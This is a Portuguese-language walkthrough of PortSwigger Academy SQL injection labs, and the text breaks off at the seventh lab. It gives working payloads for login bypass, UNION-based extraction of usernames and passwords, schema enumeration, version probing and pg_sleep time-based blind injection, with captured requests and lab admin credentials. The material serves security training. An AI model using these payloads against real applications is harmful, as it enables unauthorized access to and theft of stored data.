<div class="page"/>

# **SQL Injection | Sonael de A. Angelos Neto**

- ### **O que é SQL Injection?**
  
  SQL Injection é uma técnica de exploração de segurança que permite a um invasor enviar comandos maliciosos para um banco de dados através de uma aplicação vulnerável. Isso pode permitir que o invasor acesse informações confidenciais armazenadas no banco de dados, altere essas informações ou até mesmo exclua dados. É uma das formas mais comuns de ataques a banco de dados e pode ser evitada através de práticas de codificação seguras e validação de entrada de dados.

- ### **Quais são as técnicas Utilizadas**

  Existem diversas técnicas que podem ser usadas para realizar um ataque de SQL Injection, algumas das mais comuns incluem:

  - **String concatenation:** Esse método consiste em adicionar comandos maliciosos às strings de consulta SQL usando a concatenação de strings.

  - **Comentários de SQL:** Esse método consiste em adicionar comentários de SQL aos comandos maliciosos para esconder ou alterar o significado dos comandos.

  - **Técnicas de "blind injection":** Esse método consiste em enviar comandos maliciosos para o banco de dados sem receber uma resposta direta, o que torna mais difícil detectar ou mitigar o ataque.

  - **Union Select:** Esse método consiste em combinar informações de várias tabelas do banco de dados, permitindo ao invasor acessar informações que normalmente estariam restritas.

  - **Técnicas de "error-based injection":** Esse método consiste em usar erros gerados pelo banco de dados para inferir informações sobre a estrutura do banco de dados e encontrar vulnerabilidades.

  - **Técnicas de "time-based injection":** Esse método consiste em usar o tempo de resposta do banco de dados para inferir informações sobre a estrutura do banco de dados e encontrar vulnerabilidades.

  Essas são algumas das técnicas mais comuns usadas para realizar ataques de SQL Injection, mas existem outras variantes e técnicas avançadas que podem ser utilizadas dependendo do contexto e configuração da aplicação.

- ### **Qual o impacto de um ataque de SQL Injection?**

  O impacto de uma vulnerabilidade de SQL Injection pode ser significativo, pois permite que um invasor tenha acesso a informações confidenciais armazenadas no banco de dados, altere essas informações ou exclua dados. Alguns dos impactos possíveis incluem:

  - **Roubo de dados:** Um invasor pode usar a injeção SQL para acessar e roubar informações confidenciais, como senhas de usuário, números de cartão de crédito e informações pessoais.

  - **Modificação de dados:** Um invasor pode usar a injeção SQL para alterar dados no banco de dados, como alterar senhas de usuário ou excluir contas.

  - **Negação de serviço:** Um invasor pode usar a injeção SQL para causar uma sobrecarga no banco de dados, resultando em um desempenho lento ou até mesmo uma parada completa do sistema.

  - **Escalada de privilégios:** Um invasor pode usar a injeção SQL para obter acesso a informações ou recursos normalmente restritos, como acessar informações confidenciais ou ganhar acesso de administrador.

  - **Danos à reputação:** Um ataque de SQL Injection pode resultar em vazamento de dados confidenciais, o que pode causar danos à reputação da empresa ou organização afetada.

  Além disso, uma vulnerabilidade de SQL Injection pode ser usada como ponto de entrada para ataques mais avançados, como roubo de identidade ou ataques de phishing. É importante tomar medidas para prevenir e mitigar essa vulnerabilidade para proteger os dados e a integridade do sistema.

---

## **<center>Sumário</center>**

  Nesse documento, iremos explorar vulnerabilidades de `"SQL Injection"`, utilizando **7** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  1. #### ***<a href="#1">SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.</a>***
  2. #### ***<a href="#2">SQL injection UNION attack, retrieving data from other tables.</a>***
  3. #### ***<a href="#3">SQL injection UNION attack, retrieving multiple values in a single column.</a>***
  4. #### ***<a href="#4">SQL injection attack, querying the database type and version on MySQL and Microsoft.</a>***
  5. #### ***<a href="#5">SQL injection attack, listing the database contents on non-Oracle databases.</a>***
  6. #### ***<a href="#6">Blind SQL injection with time delays.</a>***
  7. #### ***<a href="#7">Blind SQL injection with time delays and information retrieval.</a>***

### **Complementos:**

8. #### ***<a href="#8">Mitigação.</a>***
9. #### ***<a href="#9">Dificuldades.</a>***
10. #### ***<a href="#10">Conclusão.</a>***
11. #### ***<a href="#11">Referências.</a>***
12. #### ***<a href="#12">Links p/ Laboratórios.</a>***
  

---

### **Ferramentas utilizadas:**

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

- #### [Python](https://www.python.org) :
    - Utilizaremos o `python` para automatizar algumas tarefas.

---

## **<a id="1"> • SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.</a>**

O objetivo desse laboratório é explorar uma vulnerabilidade de `SQL Injection` em uma consulta `SQL` que está sendo feita no back-end, para isso, iremos utilizar o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

O laboratório informa que quando o usuário seleciona uma categoria, o aplicativo realiza uma consulta SQL como a seguinte:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Então vamos analisar a requisição feita ao selecionar a categoria `Pets`:

```http

GET /filter?category=Pets HTTP/1.1
Host: 0a660089033a433bc3b00de200280005.web-security-academy.net
Cookie: session=x7FO72g8FfEQVVR5kS7KbQ0glInqcYid
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a660089033a433bc3b00de200280005.web-security-academy.net/filter?category=Gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Percebemos que na requisição, o parâmetro `category` está recebendo o valor `Pets`, então é através desse parâmetro que o aplicativo está realizando a consulta `SQL` no back-end.

Para triggar a vulnerabilidade de `SQL Injection`, iremos utilizar o seguinte payload:

```sql
' OR 1=1 --
```

O payload acima, irá fazer com que a consulta `SQL` fique da seguinte forma:

```sql

SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1

```

Dessa forma o aplicativo irá retornar todos os produtos, pois a condição `1=1` sempre será verdadeira e o resto da query estará comentado. Porém como se trata de um parâmetro passado através da `URL`, teremos que fazer o encode do payload para Url, para isso, utilizaremos uma função nativa do burp onde basta selecionar o texto, clicar com o botão direito do mouse e ir em em `Convert Selection > URL > URL-encode key characters`.

Entao nossa requisição ficará da seguinte forma:

```http

GET /filter?category='+OR+1%3d1+--  HTTP/1.1
Host: 0a660089033a433bc3b00de200280005.web-security-academy.net
Cookie: session=hygwt2ggXhRwziIYqbCxGXxj1GJGvms0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a660089033a433bc3b00de200280005.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
<div class="page"/>

Agora basta enviar a requisição que o laboratório será concluído.



---

## **<a id="2"> • SQL injection UNION attack, retrieving data from other tables.</a>**

Assim como o laboratório anterior, o objetivo desse laboratório é explorar uma vulnerabilidade de `SQL Injection` em uma consulta `SQL` que está sendo feita no back-end. O laboratório nos informa que o banco de dados contém uma tabela diferente chamada users, com colunas chamadas username e password e que para resolver deveremos executar um ataque UNION de injeção de SQL que recupere todos os nomes de usuário e senhas e use as informações para efetuar login como o usuário administrador.

Ao selecionar a categoria `Pets`, notamos que a url é a seguinte:

```http

https://0a9c00fe04ca3505c24dd0f300f70079.web-security-academy.net/filter?category=Pets

```	

O parâmetro `category` está recebendo o valor `Pets`, então é através desse parâmetro que o aplicativo está realizando a consulta `SQL` no back-end.

Primeiramente teremos que descobrir quantas colunas estão sendo retornadas na consulta `SQL`, para isso, utilizaremos o seguinte payload:

```sql
' Order By 1 --
```

O `Order By` aqui está sendo utilizado para ordenar os resultados da consulta `SQL` e o `1` é o número da coluna que queremos ordenar. Iremos incrementar o número da coluna até que o aplicativo retorne um erro, pois quando o aplicativo não encontrar a coluna, ele irá retornar um erro.



Percebemos que o aplicativo retornou um erro quando o número da coluna foi 3, então temos 2 colunas sendo retornadas na consulta `SQL`.

Agora temos que descobrir quais são os tipos de dados dessas colunas, para isso, utilizaremos o seguinte payload:

```sql
' Union Select 'aaa', Null --
```

o `Union` aqui está sendo utilizado para concatenar a consulta `SQL` com outra consulta `SQL`, o `Select` está sendo utilizado para selecionar os dados que queremos retornar, o `aaa` é um texto qualquer que iremos utilizar para identificar se o tipo de dado da coluna é um `text`.




Como a query acima não retornou erro, sabemos que o tipo de dado da primeira coluna é `text`, agora temos que repetir o processo para a segunda coluna.

```sql
' Union Select 'aaa', 'bbb' --
```

E podemos ver que a segunda coluna também é do tipo `text`


Agora basta usar isso para retirar os valores da tabela users, para isso, utilizaremos o seguinte payload:

```sql
' Union Select username, password From users --
```




Agora basta fazer o login com o usuário `administrator` e a senha `57f1gxii1uex99kgr1r4` e concluiremos o laboratório.



---

## **<a id="3"> • SQL injection UNION attack, retrieving multiple values in a single column.</a>**

Nesse laboratório também iremos executar um ataque UNION de injeção de SQL que recupere todos os nomes de usuário e senhas da tabela `users` e use as informações para efetuar login como o usuário administrador.

Como já sabemos onde explorar o SQL Injection e o número de colunas, vamos direto para descobrir os tipos de dados das colunas, para isso, utilizaremos o seguinte payload:

```sql
' Union Select 'aaa', Null --
```



Como a query acima retornou erro, sabemos que o tipo de dado da primeira coluna não é `text`, então não vamos poder utilizar ela para recuperar os dados da tabela `users`. Agora vamos tentar a segunda coluna.

```sql

' Union Select Null, 'bbb' --
```


Já a segunda coluna não retornou erro, então sabemos que o tipo de dado dela é `text`. Agora vamos utilizar ela para recuperar os dados da tabela `users`.

Então teremos que concatenar os valores da tabela `users` para que eles sejam retornados em uma única coluna, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT NULL,username||'~'||password FROM users--
```



Agora basta fazer o login com o usuário `administrator` e a senha `vae48r7tb08ig597x1mm` e concluiremos o laboratório.


---

## **<a id="4"> • SQL injection attack, querying the database type and version on MySQL and Microsoft.</a>**

Nesse Laboratório teremos que recuperar a string `8.0.31-0ubuntu0.20.04.2` que é a versão do banco de dados `MySQL` que está sendo utilizado no back-end e para isso utilizaremos um ataque UNION de injeção de SQL

Como já sabemos onde explorar o SQL Injection, vamos direto para descobrir o número das colunas, para isso, utilizaremos o seguinte payload:

Primeiramente vamos descobrir quantas colunas estão sendo retornadas na consulta `SQL`, para isso, utilizaremos o seguinte payload:

```sql
' Order By 3#
```



O uso do `#` no final do payload é para ignorar o resto da consulta `SQL` e assim não retornar um erro, pois no `MySQL` o `#` é utilizado para comentar.

Perceba que o aplicativo retornou um erro quando o número da coluna foi 3, então temos 2 colunas sendo retornadas na consulta `SQL`.

Note também que o `#` foi trocado por `%23`, isso é necessário pois o parâmetro `category` está sendo utilizado em uma URL, logo ele precisará de URL encoding.

Agora vamos descobrir quais são os tipos de dados dessas colunas, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT 'aaa','bbb'#
```


Como a query acima não retornou erro, sabemos que o tipo de dado das duas colunas é `text`.

Agora precisamos retornar a versão do banco de dados `MySQL` , para isso, utilizaremos `@@version` que é uma variável que retorna a versão do banco de dados `MySQL`.

```sql
' UNION SELECT @@version, NULL#
```



Assim conseguimos recuperar a versão do banco de dados `MySQL` e concluímos o laboratório.



---

## **<a id="5"> • SQL injection attack, listing the database contents on non-Oracle databases.</a>**

O objetivo desse laboratório é através de um ataque SQL Injection, logar como o usuário `administrator`.

Como já sabemos onde explorar o SQL Injection, vamos direto para descobrir o número das colunas, para isso, utilizaremos o seguinte payload:

Então vamos começar descobrindo quantas colunas estão sendo retornadas na consulta `SQL`, para isso, utilizaremos o seguinte payload:

```sql
' Order By 1 --
```



O aplicativo retornou um erro quando o número da coluna foi 3, então temos 2 colunas sendo retornadas na consulta `SQL`.

<div class="page"/>

Agora vamos descobrir quais são os tipos de dados dessas colunas, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT 'aaa','bbb'--
```



Como a query acima não retornou erro, sabemos que o tipo de dado das duas colunas é `text`.

Agora vamos descobrir o nome das tabelas que estão no banco de dados, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Onde `information_schema.tables` é uma tabela que contém todas as tabelas do banco de dados e `table_name` é a coluna que contém o nome das tabelas.



A query lista inumeras tabelas, mas uma chama a atenção, a tabela `users_yqznnl`, então vamos utiliza-la pegando os nomes das colunas, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_yqznnl'--
```

Onde `information_schema.columns` é uma tabela que contém todas as colunas de todas as tabelas do banco de dados, `column_name` é a coluna que contém o nome das colunas e `table_name` é a coluna que contém o nome das tabelas.




Listando as colunas da tabela `users_yqznnl` temos `username_jmfatb` e `password_ueihrq`, vamos utilizar essas colunas para recuperar os usuários e senhas, para isso, utilizaremos o seguinte payload:

```sql
' UNION SELECT username_jmfatb, password_ueihrq FROM users_yqznnl--
```




Agora basta fazer o login com o usuário `administrator` e a senha `7aasopowcdoj8xk9syyv` e concluiremos o laboratório.



---

<div class="page"/>

## **<a id="6"> • Blind SQL injection with time delays.</a>**

Nesse laboratório temos um SQL Injection que não retorna erro, mas sim um tempo de resposta maior, então vamos descobrir qual é a query que está sendo executada pelo backend.

Primeiramente vamos analisar a requisição que é feita quando o aplicativo é carregado, para isso, vamos utilizar o Burp Suite.

```http
GET / HTTP/1.1
Host: 0ad800ef0400a2f6c0d31839004a009f.web-security-academy.net
Cookie: TrackingId=mkdbTrWW6PTt1W3K; session=Dl4a9I8t1XhXjMreTeOBCjMauL5AuZzK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Ao analisar a requisição percebemos que o aplicativo usa um cookie de rastreamento para análise e executa uma consulta SQL contendo o valor do cookie enviado.

Então para fazer o teste de SQL Injection Blind, vamos utilizar o seguinte payload:

```sql
TrackingId=mkdbTrWW6PTt1W3K'||pg_sleep(10)--
```

Onde `pg_sleep(10)` é uma função que faz o banco de dados esperar 10 segundos, caso ele espere 10 segundos, sabemos que está vulnerável a SQL Injection.

Agora basta modificar a requisição no Burp Suite e enviar para o aplicativo.

```http
GET / HTTP/1.1
Host: 0ad800ef0400a2f6c0d31839004a009f.web-security-academy.net
Cookie: TrackingId=mkdbTrWW6PTt1W3K'||pg_sleep(10)--; session=Dl4a9I8t1XhXjMreTeOBCjMauL5AuZzK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Apos isso o laboratório será concluído.



---

## **<a id="7"> • Blind SQL injection with time delays and information retrieval.</a>**

Nesse laboratório temos um SQL Injection que não retorna erro, mas sim um tempo de resposta maior e nosso objetivo é fazer login como `administrator`.

O laboratório informa que o banco de dados contém uma tabela diferente chamada users, com colunas chamadas username e password, então precisamos explorar a vulnerabilidade de Blind SQL para descobrir a senha do usuário administrador.

